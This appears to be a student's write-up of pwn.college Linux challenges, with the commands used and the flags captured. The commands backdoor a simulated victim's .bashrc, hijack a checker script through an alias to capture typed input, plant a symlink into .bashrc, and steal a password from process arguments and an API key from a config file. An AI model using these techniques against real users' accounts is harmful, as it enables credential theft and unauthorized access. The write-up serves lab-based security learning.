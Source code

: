 
### Bashrc Backdoor

In this challenge, we'll pretend that you've broken into a victim user's machine! That user is named `zardus`, with a home directory of `/home/zardus`. You, as the `hacker` user, have write access to his `.bashrc`, and `zardus` has read-access to `/flag`. The victim is simulated by the script `/challenge/victim`, and you can launch this script at any time to observe the victim logging into the computer. Can you get the flag?

What I did: 
- `cd /home/zardus`
- `echo "cat /flag" >> .bashrc`
- Ran `/challenge/victim`
- This gave out the flag

flag: `pwn.college{QwsFslawFk7w03W7xwg2X-ZEvbJ.0VMzEzNxwyNwkzNyEzW}`

### Sniffing Input 

Your mission is to use your continued write access to Zardus's `.bashrc` to intercept this flag. Remember how you hijacked commands in the [Pondering PATH](https://pwn.college/linux-luminarium/path) module? Can you use that capability to hijack the `flag_checker`?


This is what the flag_checker file contained: 
```bash
#!/opt/pwn.college/bash

echo -n "Type the flag, victim: "
read -r candidate

echo 
if [ "$candidate" = "$(cat /flag)" ]; then
	echo "Correct!"
	exit 0
else
	echo "Incorrect!"
	exit 1
fi
```

What I did: 
- Created my own flag_checker
- Created an alias that runs my flag_checker script which is not the actual flag_checker script
- Run `/challenge/victim` to get the flag

`/home/zardus/.bashrc`:
```bash

### Alias 

alias flag_checker="bash /home/hacker/flag_checker"

```

`/home/hacker/flag_checker`:
```bash
echo -n "Type the flag, victim: "
read -r candidate
echo "\n$candidate"
echo 
if [ "$candidate" = "$(cat /flag)" ]; then
	echo "Correct!"
	# putting echo here would cause an error and won't show the flag as the hacker user doesn't have read permissions to /flag, better to just get the input flag after read
	exit 0
else
	echo "Incorrect!"
	exit 1
fi
```


flag: `pwn.college{YJtNDzuqXSN5OODAZvsUFogdJMS.0VNzEzNxwyNwkzNyEzW}`

### Overshared Directories 

In this challenge, for convenience, Zardus opened up his home directory:

```console
zardus@dojo:~$ chmod a+w /home/zardus
```

As you know, there are lots of sensitive files in that directory _such as `.bashrc`_! Can you replicate the previous attack with write access to `/home/zardus` instead of `/home/zardus/.bashrc`?

What did I do? :
- `rm /home/zardus/.bashrc`
- `echo "alias flag_checker='bash /home/hacker/flag_checker'" > /home/zardus/.bashrc`
- `/challenge/victim`

flag: `pwn.college{wBNZwRocFD3RXPvgE9EwmuvfFaV.0FM0EzNxwyNwkzNyEzW}`

### Tricky Linking 

In this challenge, when you run `/challenge/victim`, Zardus will add `cat /flag` to that list of commands:

```console
hacker@dojo:~$ /challenge/victim

Username: zardus
Password: **********
zardus@dojo:~$ echo "cat /flag" >> /tmp/collab/evil-commands.txt
zardus@dojo:~$ exit
logout

hacker@dojo:~$
```

Recall from the previous level that, having write access to `/tmp/collab`, the `hacker` user can replace that `evil-commands.txt` file. Also remember from [Comprehending Commands](https://pwn.college/linux-luminarium/commands) that files can _link_ to other files. What happens if `hacker` replaces `evil-commands.txt` with a symbolic link to some sensitive file that `zardus` can write to? Chaos and shenanigans!

You _know_ the file to link to. Pull off the attack, and get `/flag` (which, for this level, Zardus can read again!).


Command used: 
`rm /tmp/collab/evil-commands.txt`
`ln -s /home/zardus/.bashrc /tmp/collab/evil-commands.txt`
`/challenge/victim # to write cat /flag to bashrc`
`/challenge/victim # to trigger cat`

flag: `pwn.college{gRDnjihKpBi3dKvLsfdTamxM5qA.0VM0EzNxwyNwkzNyEzW}`

### Sniffing Process Arguments

That's what this challenge explores. Zardus is using an automation script, passing his account password to it as an argument. Zardus is also allowed to use `sudo` (and, thus, to `sudo cat /flag`!). Steal the password, log in to Zardus' account (recall the `su` command from the [Untangling Users](https://pwn.college/linux-luminarium/users) module), and get that flag!


Command used: 
`ps aux`
`password = pw_1680526469`
`su zardus`
`sudo cat /flag`

flag: `pwn.college{U-jGB_TOoFV-8iwBF2JRvE49Nzs.0FOzEzNxwyNwkzNyEzW}`

### Snooping on Configurations

Afterwards, Zardus can easily refer to the API key. In this level, users can use a valid API key to get the flag:

```
zardus@dojo:~$ flag_getter --key $FLAG_GETTER_API_KEY
Correct API key! Do you want me to print the key (y/n)? y
pwn.college{HACKED}
zardus@dojo:~$
```

Naturally, Zardus stores his key in `.bashrc`. Can you steal the key and get the flag?

Command used: 
`cat /home/zardus/.bashrc`
`flag_getter --key sk-4821690`


flag: `pwn.college{sZH97VUtd8C9mXW5x7xI_CZniBo.0lM0EzNxwyNwkzNyEzW}`


